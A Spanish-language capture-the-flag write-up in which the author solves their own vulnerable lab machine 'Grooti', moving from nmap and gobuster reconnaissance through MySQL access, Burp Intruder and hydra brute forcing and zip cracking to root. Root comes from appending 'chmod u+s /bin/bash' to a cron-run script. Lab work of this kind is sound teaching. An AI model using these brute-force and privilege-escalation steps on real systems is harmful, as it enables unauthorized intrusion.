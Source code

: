 
Este write up pertenece a mi primera máquina vulnerable creada por mi!!
Vamos a ello :)

Empezaremos haciendo un escaneo básico de puertos abiertos:

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y tenemos los puertos 80, 22 y 3306 abiertos

Empezaremos visitando la web y vemos la siguiente página:

![](./images/1.png)
Si vemos el código fuente nos encontramos con el siguiente mensaje:

```
 I am Grooti...
        Creo que Rocket ha entrado a mi base de datos...
```

Y si accedemos al apartado "Mis fotos" veremos un README.txt con el siguiente contenido:

```
(password1) Encuentra donde ponerla ;)
```

Parece ser la contraseña de una base de datos.
Si accedemos al apartado de "Mi base de datos" nos sale "not found" habrá que encontrar el directorio de la base de datos. Para ello haremos fuzzing web:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Y nos encuentra un directorio nuevo:

```
http://172.17.0.2/secret/
```

Accedemos a ella y nos encontramos con esto:

![](./images/2.png)


Aparece un panel de una base de datos, y podemos descargarnos un archivo que se llama instrucciones. Vamos a ver que contiene:

```
look carefully here ;)
```

Este mensaje nos aparece al principio pero si bajamos abajo del todo:

```
mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

Tenemos el comando para acceder a mysql, probaremos con la contraseña de antes: password1

Conseguimos acceso a la base de datos y ahora para ver que hay haremos lo siguiente:

```
show databases;
+--------------------+
| Database           |
+--------------------+
| files_secret       |
| information_schema |
| performance_schema |
+--------------------+

MySQL [(none)]> use files_secret;

Database changed
MySQL [files_secret]> show tables;
+------------------------+
| Tables_in_files_secret |
+------------------------+
| rutas                  |
+------------------------+

MySQL [files_secret]> select * from rutas;
+----+------------+---------------------------------+
| id | nombre     | ruta                            |
+----+------------+---------------------------------+
|  1 | imagenes   | /var/www/html/files/imagenes/   |
|  2 | documentos | /var/www/html/files/documentos/ |
|  3 | facturas   | /var/www/html/files/facturas/   |
|  4 | secret     | /unprivate/secret               |
+----+------------+---------------------------------+
```

Encontramos un nuevo directorio secreto, vamos a verlo:

![](./images/3.png)

Vemos esta página donde nos piden dos entradas de texto, la segunda tiene que ser un número del 1 al 100. Vamos a probar que pasa poniendo hola y el número 1. Se nos descarga un archivo que pone lo siguiente:

```
Buen intento!
```

Vemos que se nos descarga un archivo llamado password*.txt donde el asterisco es el número que le demos, vamos a probar con el 5, 3 y con el último que se puede el 100:

```
paswword5.txt = Asi no lo vas a conseguir...
password100.txt =Caaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaasi ;)
password3.txt = Igual la fuerza bruta es un recurso...
```

Vaya, capturaremos la petición con burpsuite y la petición se la mandamos al intruder para hacer fuerza bruta. Lo configuramos así y lanzamos el ataque:

![](./images/4.png)



En el ataque vemos que el número 16 su "length" es muy superior al resto, por tanto cogeremos su petición y la envíamos:



![](./images/5.png)
![](./images/6.png)


En el apartado proxy le damos a "forward" y automáticamente se nos descarga un password16.zip, que a su vez esta protegido con contraseña. Vamos a crackearla:

```
zip2john password16.zip >> hash
```

```
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash 

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (password16.zip/password16.txt) 
```

La contraseña del .zip es: password1, descomprimimos y nos saca un password16.txt, que es un diccionario de contraseñas, haremos fuerza bruta a ssh con el usuario "grooti", ya que en la página principal, se menciona: "I am grooti":

```
hydra -l grooti  -P password16.txt  ssh://172.17.0.2 

[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt

```

Ya tenemos la contraseña, vamos a acceder a ssh ahora. Y conseguimos acceder a la máquina!!

ESCALADA DE PRIVILEGIOS

Para la escalada, esta máquina, esta configurada por el crontab:

```
crontab -e 

* * * * * /opt/cleanup.sh
```

```
cat cleanup.sh 
#!/bin/bash

bash /tmp/malicious.sh
```

No tenemos permisos de escritura, pero el script dice que se está ejecutando otro script en /tmp, iremos allí.

En /tmp hay este script: malicious.sh donde se ejecuta una creación de logs y posteriormente se elimina.

```
cat malicious.sh 
#!/bin/bash

LOG_TEMP="/tmp/mi_log_temporal.log"

echo "Log temporal creado a $(date)" > "$LOG_TEMP"
echo "Archivo $LOG_TEMP creado."

sleep 2

rm -f "$LOG_TEMP"
echo "Archivo $LOG_TEMP eliminado después de 2 segundos."
```

Aquí si tenemos permisos de escritura y como, root, por el crontab, ejecuta cada minuto el script de /opt que a su vez ejecuta este script, vamos a modificarlo para que nos devuelva una bash como root:

```
echo 'chmod u+s /bin/bash' >> malicious.sh 
```

Esperamos un minuto, ejecutamos bash -p y...

```
grooti@7e045e587dbb:/tmp$ bash -p
bash-5.2# whoami
root
```

Finalemente pwned ;)

```
bash-5.2# cd /root
bash-5.2# cat grooti.txt 
⠰⣶⣶⣶⣄⠀⠀⠀⢀⣀⠀⠀⣠⣄⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠻⣿⣿⣿⡀⠀⠀⣿⠿⠷⢾⡏⠉⣿⣄⢀⣿⣷⡆⠀⠀
⢀⣠⣬⡁⢸⣿⣶⣿⣿⡇⠀⣾⡇⠀⣿⡏⠛⢻⣿⢧⣤⠀
⢸⣿⡿⡿⢻⠇⠀⢿⣿⡇⣠⣿⡇⣼⡿⠀⠀⣼⡏⢠⣾⠀
⢸⣿⡀⢀⣿⠀⣴⠈⣿⣿⣿⣿⣿⣿⠃⣾⣤⣿⠀⣼⣿⠀
⢸⣿⣧⢸⣿⣧⣿⣇⣿⣿⣿⣿⣿⣿⣾⣿⣿⣏⣼⣿⣿⠀
⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡄
⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠁
⠀⢹⣿⣿⣿⣿⣿⠉⠙⣿⣿⣿⣿⣿⡯⠉⢻⣿⣿⣿⣿⠀
⠀⠸⣿⣿⣿⣧⡀⠀⣠⣿⣿⣿⣿⣄⠀⢀⣼⣿⣿⣿⠇⠀
⠀⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀
⠀⠀⠘⣿⣿⣿⣿⣿⡿⠿⠿⢿⣿⣿⣿⣿⣿⣿⡟⠁⠀⠀
⠀⠀⠀⠘⣿⣿⣿⣿⣷⣄⣀⣀⣠⣿⣿⣿⣿⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⠿⠟⠛⠉⠀⠀⠀⠀
```
